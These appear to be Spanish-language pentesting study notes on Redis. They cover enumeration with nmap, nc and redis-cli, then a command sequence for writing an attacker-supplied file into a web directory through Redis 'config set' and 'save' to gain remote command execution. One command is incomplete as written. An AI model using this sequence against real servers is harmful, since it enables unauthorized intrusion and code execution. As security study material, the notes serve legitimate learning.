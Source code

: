 ----
- Tags: #teoria #practica #basico 
----

# Redis

**Redis** es un motor de base de datos en memoria, basado en el almacenamiento en trablas de hashes pero que opcionalmente puede ser usada com una base de datos durable o persistente.

Es importante tener en cuenta que redis es una base de datos NoSQL que almacena datos en uan estructura de clave-valor. La clave (key) es un identificador único que se utiliza para acceder a los datos y el valro es cualqueir tipo de dato, como cadenas, listas, conjuntos, hash maps, etc.

-----

# Enumeration 

Redis puede escanearse de manera manula o automatizada...

- ## Automatica
`
```bash
nmap --script redis-info -sV -p 6379 {ip}
```

- ## Manual 

Para conectarnos a redis podemos hacer uso de **nc** o **redis-cli**. 

```bash
nc -vn {ip} 6379

redis-cli -h {ip} # sudo apt-get install redis-tools
```

Comandos basicos para enumerar: 

```bash
INFO 
# [...Listar información en general así como de las base de datos en memoria...]
clien list 
# [...Listar los usuarios conectados...]
CONFIG GET * 
# [...Obtener las configuraciones...]
```

En caso de haber base de datos, podríamos intentar listar estas. 

```bash
SELECT {number}
# [...Seleccionar una base de datos...]
KEYS *
# [...Obtener las keys de la bade de datos...]
GET {name_of_key}
# [...Seleccionar el valor de las keys...]
```

-----

# [[RCE - (Remote Command Execution)]] vía Redis

Muchas veces una web la cual acepta php esta vinculada con redis, de maner que se nos podría ocurrir intentar depostiar un archivo especifico en una ruta en particular. 

Es **IMPORTANTE** tener en cuenta que todo archvo que subamos debe empezar con 3 saltos de linea ("\\n\\n\\n") y finalizar con 2 ("\\n\\n"). 

```bash
cat {file_to_upload} | redis-cli -h {ip} -x set {identifier_name}

redis-cli -h {ip} config set {path_to_upload_the_file}

redis-cli -h {ip} config set dbfilename "{filename}"

redis-cli -h {ip} save

```